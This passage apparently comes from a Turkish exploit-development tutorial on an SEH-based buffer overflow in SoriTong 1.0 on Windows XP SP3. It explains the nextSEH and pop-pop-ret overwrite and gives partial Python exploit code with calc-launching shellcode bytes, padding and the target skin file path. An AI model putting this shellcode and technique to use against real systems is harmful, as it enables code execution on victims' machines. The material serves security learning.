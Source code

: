 ![6](img/0x03/6.png)

Burda anlatmak istediği nextSEH alanına shellcode'umuza zıplayacak bir opcode veya komut bulmamız gerektiği. Daha sonra `SE Handler` alanına ise `pop pop ret` komutu girerek hemen üstünde nextSEH alanına yazmış olduğumuz şeyi çalıştıracağız.

İki defa pop işlemi yapıp sonrada ret yapmamızın sebebi ise `exception handler` fonksiyonu çalışırken bazı argümanlara ihtiyaç duyuyor olması. Bu argümanlardan biriside kendi stack alanı içerisinde `ESP+8`'e denk gelen nextSEH adresi. İlk pop 0->4 'e kadar olan ilk argumanı, ikinci pop 4->8 'e kadar olan ikinci argumanı ve en sondaki ret komutu 8->12 arasındaki 3. argumanımız olan nextSEH değerimize denk gelmekte.

Eee hadi o zaman şu değerlerin üzerine yazmaya çalışalım bakalım neler olacak

`C:\Program Files\SoriTong\Skin\Default\` dizini altında bulunan `UI.txt` dosyasına exploitimizi yazacağız.

```python
# SoriTong 1.0 SEH Based Exploit
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

padding = b"A"*5000

# File path
file = "C:\Program Files\SoriTong\Skin\Default\UI.txt"
```